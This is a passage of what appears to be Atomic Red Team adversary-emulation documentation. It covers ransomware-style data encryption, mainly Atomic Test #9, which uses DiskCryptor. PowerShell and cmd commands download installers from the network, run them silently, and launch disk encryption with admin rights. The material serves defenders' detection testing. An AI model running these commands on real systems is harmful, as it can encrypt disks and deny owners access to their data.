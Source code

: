 ```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://files.gpg4win.org/gpg4win-4.1.0.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\gpginstall.exe"
cmd /c "PathToAtomicsFolder\..\ExternalPayloads\gpginstall.exe" /S
```




<br/>
<br/>

## Atomic Test #9 - Data Encrypt Using DiskCryptor
DiskCryptor, an open source encryption utility, can be exploited by adversaries for encrypting all disk partitions, including system partitions. This tool was identified in a ransomware campaign, as reported on https://thedfirreport.com/2021/11/15/exchange-exploit-leads-to-domain-wide-ransomware/. The documentation for DiskCryptor can be found at https://github.com/DavidXanatos/DiskCryptor. During the installation process, running dcrypt.exe starts the encryption console. It's important to note that a system reboot is necessary as part of the installation.

**Supported Platforms:** Windows


**auto_generated_guid:** 44b68e11-9da2-4d45-a0d9-893dabd60f30





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dcrypt_exe | The dcrypt.exe executable from dcrypt_setup.exe | path | dcrypt.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
""%PROGRAMFILES%\dcrypt"\#{dcrypt_exe}"
```




#### Dependencies:  Run with `powershell`!
##### Description: dcrypt_setup will be installed at specified location (#{dcrypt_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "${env:ProgramFiles}/dcrypt/#{dcrypt_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Downloading DiskCryptor installer
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/DavidXanatos/DiskCryptor/releases/download/1.1.846.118/dcrypt_setup_1.1.846.118.exe" -OutFile      "PathToAtomicsFolder\..\ExternalPayloads\dcrypt_setup_1.1.846.118.exe"
Write-Host Install DiskCryptor
Start-Process "PathToAtomicsFolder\..\ExternalPayloads\dcrypt_setup_1.1.846.118.exe" -Wait -ArgumentList "/s"
```
